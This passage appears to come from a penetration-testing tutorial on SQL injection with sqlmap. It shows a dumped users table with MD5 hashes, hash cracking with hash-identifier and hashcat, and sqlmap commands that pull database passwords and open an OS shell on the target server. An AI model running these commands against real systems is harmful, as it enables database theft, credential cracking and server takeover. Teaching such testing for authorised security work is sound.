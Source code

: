 **Expected Output:**
```
Database: webapp_db
Table: users
[3 entries]
+----+----------+----------------------------------+-------------------+-------+
| id | username | password                         | email             | role  |
+----+----------+----------------------------------+-------------------+-------+
| 1  | admin    | 5f4dcc3b5aa765d61d8327deb882cf99 | admin@target.com  | admin |
| 2  | user1    | e99a18c428cb38d5f260853678922e03 | user1@target.com  | user  |
| 3  | testuser | 8d3533d75ae2c3966d7e0d4fcc69216b | test@target.com   | user  |
+----+----------+----------------------------------+-------------------+-------+
```

### 6.5: Crack Password Hashes

**Identify hash type:**
```bash
hash-identifier
# Paste hash: 5f4dcc3b5aa765d61d8327deb882cf99
# Result: MD5
```

**Crack with hashcat:**
```bash
hashcat -m 0 -a 0 hashes.txt /usr/share/wordlists/rockyou.txt
```

**Or use online tools:**
- CrackStation.net
- HashKiller.io

### 6.6: Get Database Credentials

```bash
sqlmap -u "https://target.com/product?id=1" \
  --passwords \
  --batch
```

### 6.7: OS Command Execution (Advanced)

```bash
sqlmap -u "https://target.com/product?id=1" \
  --os-shell \
  --batch
```

**If successful, you get interactive shell on server!**

---

## 🚀 Complete Workflow Example

### Scenario: Testing `example.com` from scratch

